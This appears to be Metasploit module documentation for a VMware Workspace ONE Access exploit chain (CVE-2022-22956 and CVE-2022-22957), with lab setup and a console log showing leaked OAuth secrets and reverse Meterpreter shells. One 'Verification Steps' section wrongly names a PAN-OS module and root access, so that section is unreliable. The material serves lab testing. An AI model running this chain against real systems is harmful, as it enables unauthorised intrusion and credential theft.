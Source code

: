 ## Vulnerable Application

This module combines two vulnerabilities in order achieve remote code execution in the context of the `horizon` user.
The first vulnerability CVE-2022-22956 is an authentication bypass in OAuth2TokenResourceController ACS which allows
a remote, unauthenticated attacker to bypass the authentication mechanism and execute any operation. The second
vulnerability CVE-2022-22957 is a JDBC injection RCE specifically in the DBConnectionCheckController class's dbCheck 
method which allows an attacker to deserialize arbitrary Java objects which can allow remote code execution.

CVE-2022-22956 & CVE-2022-22957:

| Vulnerable Application  | Vulnerable version  |
|---|---|
| VMware Workspace ONE Access (Access)   |  21.08.0.1, 21.08.0.0, 20.10.0.1, 20.10.0.0  |
| VMware Identity Manager (vIDM)  |  3.3.6, 3.3.5, 3.3.4, 3.3.3  |
| VMware vRealize Automation (vRA)  |  8.x, 7.6  |
| VMware Cloud Foundation | 4.x | 
| vRealize Suite Lifecycle Manager | 8.x |

### Setup

In order to download a vulnerable application you do need VMware Customer Connect credentials. Navigate to
[Download VMware Workspace ONE Access (VIDM)](https://customerconnect.vmware.com/downloads/info/slug/desktop_end_user_computing/vmware_workspace_one_access_vidm/20_10).
to download the OVA file.
During VM Configuration within VMware Fusion, in Addition Settings input the following:

#### Application:

Timezone: (timezone of your choice)

Join the VMware Custom Experience Improvement Program: (deselect)

#### Networking Properties: (note the following may depend on your network configuration)

Host Name (FQDN): access01.corp.local

Default Gateway: 192.168.123.1

Domain Name: (blank)

Domain Search Path: (blank)

DNS: 192.168.123.1

IP Address: 192.168.123.16
Network: 255.255.255.0

Add the following line to your `/etc/hosts` file:
`192.168.123.16 access.test.local`

Be sure to change the network adapter of the VM to the network adapter that corresponds to the subnet of the static IP address you assigned above.

#### GUI Setup

Once running navigate to https://access.test.local:8443/cfg/setup
in order to complete the following setup requirements:

Set Passwords
- Appliance Administrator Account
- Appliance Root Account
- Remote User Account

Select Database
- Database Type: Internal Database


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/panos_auth_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain`
1. Set the `RHOST`, `LHOST` and `TARGET` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### VMware Identity Manager 21.08.0.1-19010796
```
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set rhosts 192.168.123.16
rhosts => 192.168.123.16
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked client_id: acs
[+] Leaked client_secret: Oh2CB8n8PSrBER3NwXs41AaY3D49G7mt
[+] The target is vulnerable. Successfully by-passed authentication by exploiting CVE-2022-22956
[*] Using URL: http://192.168.123.1:8080/ONgtre.xml
[*] Sending stage (24772 bytes) to 192.168.123.16
[+] Now use exploits/linux/local/vmware_workspace_one_access_cve_2022_22960.rb to get a root shell
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.16:53750) at 2023-04-07 10:28:46 -0400
[*] Server stopped.

meterpreter > getuid
Server username: horizon
meterpreter > sysinfo
Computer        : access01.corp.local
OS              : Linux 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.123.16 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set target 1
target => 1
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked client_id: Service__OAuth2Client
[+] Leaked client_secret: 869zxHSe5G7m7KAUSFm4iw3ByZOTdLRc
[+] The target is vulnerable. Successfully by-passed authentication by exploiting CVE-2022-22956
[*] Using URL: http://192.168.123.1:8080/mQUV.xml
[*] Using URL: http://192.168.123.1:8080/JlLraNNZdU
[*] Sending stage (3045348 bytes) to 192.168.123.16
[+] Now use exploits/linux/local/vmware_workspace_one_access_cve_2022_22960.rb to get a root shell
[*] Meterpreter session 2 opened (192.168.123.1:4444 -> 192.168.123.16:53818) at 2023-04-07 10:29:26 -0400
[*] Command Stager progress - 100.00% done (116/116 bytes)

meterpreter > getuid
Server username: horizon
meterpreter > sysinfo
Computer     : access01.corp.local
OS           : VMware Photon OS 3.0 (Linux 4.19.217-1.ph3)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
